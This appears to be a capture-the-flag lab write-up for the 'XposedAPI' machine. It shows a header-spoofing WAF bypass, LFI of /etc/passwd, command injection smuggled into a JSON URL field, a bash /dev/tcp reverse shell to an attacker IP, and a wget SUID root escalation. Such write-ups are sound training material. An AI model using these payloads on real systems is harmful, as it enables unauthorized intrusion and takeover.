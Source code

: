 # XposedAPI

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.134
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 22:46 +08
Nmap scan report for 192.168.183.134
Host is up (0.18s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
13337/tcp open  unknown
```

This box likely has some API exploitation, so we can start proxying traffic through Burp.&#x20;

### API --> RCE

Port 13337 shows some basic documentation for an API:

<figure><img src="../../../.gitbook/assets/image (97) (3).png" alt=""><figcaption></figcaption></figure>

The most interesting was the `/update` endpoint, which accepted a user-controlled URL and says it updates the application via a 'Linux Executable'. This might be vulnerable to RCE if we can chain commands to the end of the URL.&#x20;

But we didn't have a username yet. There's also a `/logs` endpoint:

<figure><img src="../../../.gitbook/assets/image (4) (4).png" alt=""><figcaption></figcaption></figure>

Attempting to visit it results in a WAF blocking us:

```
$ curl http://192.168.183.134:13337/logs
WAF: Access Denied for this Host.
```

Since the application mentioned that this is meant to be open to `localhost` only, we can try appending the `X-Forwarded-For` header.&#x20;

```
$ curl http://192.168.183.134:13337/logs -H 'X-Forwarded-For: localhost'
Error! No file specified. Use file=/path/to/log/file to access log files.
```

This looks vulnerable to LFI, and it works!

{% code overflow="wrap" %}
```
$ curl http://192.168.183.134:13337/logs?file=/etc/passwd -H 'X-Forwarded-For: localhost
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh
```
{% endcode %}

There's a `clumsyadmin` user present, and this might be the user we need. Then, we can use the `/update` endpoint to send requests to our HTTP server:

<figure><img src="../../../.gitbook/assets/image (51) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Since our parameters was being passed to a 'Linux Executable', I assumed that the URL parameter was not being properly sanitised (and is probably using `wget` or something).&#x20;

To test, I sent this JSON data:

```json
{"user":"clumsyadmin","url":"http://192.168.45.184/hiiamssrf; wget 192.168.45.184/hiiamrce"}
```

<figure><img src="../../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

This confirms we have RCE. We can get a reverse shell via this JSON object:

```json
{"user":"clumsyadmin","url":"http://192.168.45.184/hiiamssrf; bash -c 'bash -i >& /dev/tcp/192.168.45.184/21 0>&1'"}
```

<figure><img src="../../../.gitbook/assets/image (68) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Wget SUID Binary

I searched for SUID binaries on the machine, and found that `wget` was one of them:

```
clumsyadmin@xposedapi:~$ find / -perm -u=s -type f 2>/dev/null
<TRUNCATED>
/usr/bin/wget
<TRUNCATED>
```

Using this, we can get a `root` shell:

```bash
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
wget --use-askpass=$TF 0
```

<figure><img src="../../../.gitbook/assets/image (86) (8).png" alt=""><figcaption></figcaption></figure>
